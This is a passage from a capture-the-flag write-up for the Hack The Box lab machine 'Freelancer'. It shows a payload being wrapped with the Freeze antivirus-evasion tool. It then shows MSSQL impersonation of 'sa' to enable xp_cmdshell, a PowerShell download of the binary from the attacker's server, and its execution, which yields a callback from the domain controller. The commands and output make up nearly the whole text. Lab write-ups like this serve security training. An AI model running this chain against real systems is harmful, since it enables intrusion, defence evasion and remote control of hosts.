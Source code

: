 For the sake of easy evasion out of the box, we used `Freeze`.

- [https://github.com/Tylous/Freeze](https://github.com/Tylous/Freeze)

```c
┌──(kali㉿kali)-[~/opt/evasion/Freeze]
└─$ ./Freeze -I /tmp/ADVERSE_JUICE.bin -O x.exe                                
 
        ___________                                    
        \_   _____/______   ____   ____ ________ ____  
         |    __) \_  __ \_/ __ \_/ __ \\___   // __ \ 
         |     \   |  | \/\  ___/\  ___/ /    /\  ___/ 
         \___  /   |__|    \___  >\___  >_____ \\___  >
             \/                \/     \/      \/    \/ 
                                        (@Tyl0us)
        Soon they will learn that revenge is a dish... best served COLD...
                 
[!] Selected Process to Suspend: notepad.exe
[+] Loader Compiled
[*] Compiling Payload
[+] Payload x.exe Compiled
```

Next we `staged` our `binary` and `downloaded` it via the `SQL Terminal`.

```c
EXECUTE AS LOGIN = 'sa';
EXEC sp_configure 'Show Advanced Options', 1; 
RECONFIGURE; 
EXEC sp_configure 'xp_cmdshell', 1; 
RECONFIGURE;
EXEC xp_cmdshell 'powershell -c iwr 10.10.14.58/x.exe -o C:\Windows\Tasks\x.exe';
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Freelancer/serve]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.7.9 - - [01/Jun/2024 17:16:11] "GET /x.exe HTTP/1.1" 200 -
```

As second step we just `executed` the `binary`. It took nearly `two minutes` to receive the `callback`.

```c
EXECUTE AS LOGIN = 'sa';
EXEC sp_configure 'Show Advanced Options', 1; 
RECONFIGURE; 
EXEC sp_configure 'xp_cmdshell', 1; 
RECONFIGURE;
EXEC xp_cmdshell 'cmd /c C:\Windows\Tasks\x.exe';
```

```c
[*] Session 8761533e ADVERSE_JUICE - 10.129.7.9:54770 (DC) - windows/amd64 - Sat, 01 Jun 2024 17:23:17 EDT
```
